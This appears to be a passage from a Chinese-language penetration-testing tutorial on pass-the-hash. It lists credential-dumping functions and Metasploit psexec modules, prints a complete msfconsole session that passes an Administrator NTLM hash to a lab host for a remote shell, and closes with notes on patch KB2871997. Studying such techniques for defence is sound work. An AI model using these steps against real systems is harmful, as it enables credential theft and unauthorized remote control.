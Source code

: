     lsa_dump_sam：dump出lsa的SAM
    lsa_dump_secrets：dump出lsa的密文
    password_change：修改密码
    wifi_list： 列出当前用户的wifi配置文件
    wifi_list_shared： 列出共享wifi配置文件/编码
    
        

**msf psexec模块**-
PsExec是sysinternals套件中的一款强大的软件，通过他可以提权和执行远程命令，对于批量大范围的远程运维能起到很好的效果，尤其是在域环境下。但现在，攻击者渐渐开始使用psexec，通过命令行环境与目标靶机进行连接，甚至控制目标机器，而不需要通过远程连接协议（RDP）进行图形化设置，降低了因为恶意操作被管理员发现的可能性（因为PsExec是Windows提供的工具，所以杀毒软件可能会将其列入白名单）-
msf中有3个psexec模块都可以进行Hash传递利用：

    #执行单个命令的PTH模块
    auxiliary/admin/smb/psexec_command
    
     执行直接就获取到meterpreter的PTH模块
    exploit/windows/smb/psexec
    
     支持对一个网段进行PTH进行验证的模块
    exploit/windows/smb/psexec_psh
    
        

再使用pesxec模块之前要保证：

开启445端口 SMB服务-
开启admin$共享-
使用之前板块获取到的管理员NTLM Hash-
`Administrator:500:aad3b435b51404eeaad3b435b51404ee:7365e3b22baeaebc0411873eedf84390`这里前半部分的LM Hash不重要，只要保证后半部分的NTML Hash正确就行

    msf5 exploit(multi/handler) > use exploit/windows/smb/psexec
    msf5 exploit(windows/smb/psexec) > set lhost 192.168.5.128
    lhost => 192.168.5.128
    msf5 exploit(windows/smb/psexec) > set rhost 192.168.5.11
    rhost => 192.168.5.11
    msf5 exploit(windows/smb/psexec) > set smbuser Administrator
    smbuser => Administrator
    msf5 exploit(windows/smb/psexec) > set smbpass a780a2793038e0d41e929ffc01395127:7365e3b22baeaebc0411873eedf84390 
    smbpass => a780a2793038e0d41e929ffc01395127:7365e3b22baeaebc0411873eedf84390
    msf5 exploit(windows/smb/psexec) > run
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200930090006850.png%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200930090013578.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
这里还有很多不错的获取hash方法没写（主要是懒，用msf方便），比如PowerShell、WCE、AES-256密钥哈希传递、python第三方库impacket下的secretsdump等等，以后有空再记录吧…

**3、防范措施**

KB2871997补丁的影响

防范首先想到打补丁，微软也早在2014年5月发布了KB2871997补丁，该补丁禁止通过本地管理员权限与远程计算机进行连接，其后果就是：无法通过本地管理员权限对远程计算机使用Psexec、WMI、smbecec等，也无法访问远程的文件共享等。-
但实际上就算打了KB2871997补丁后，Administrator账号(SID为500)也是例外的，使用该账户的NTLM Hash依然可以进行哈希传递
